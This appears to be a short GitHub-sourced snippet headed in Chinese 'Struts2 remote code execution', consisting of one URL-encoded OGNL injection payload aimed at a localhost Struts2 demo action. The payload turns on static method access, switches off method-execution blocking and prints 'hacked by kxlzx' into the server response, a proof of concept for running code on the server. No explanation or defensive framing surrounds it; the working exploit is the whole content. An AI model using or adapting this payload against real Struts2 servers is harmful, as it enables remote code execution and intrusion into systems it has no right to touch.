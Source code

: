 # Struts2远程代码执行

http://localhost:8080/struts2demo/HelloWorld.action?q=%25%7B%28%23_memberAccess%5B%27allowStaticMethodAccess%27%5D%3Dtrue%29%28%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%29+%28%23hackedbykxlzx%3D%40org.apache.struts2.ServletActionContext%40getResponse%28%29.getWriter%28%29%2C%23hackedbykxlzx.println%28%27hacked+by+kxlzx%27%29%2C%23hackedbykxlzx.close%28%29%29%7D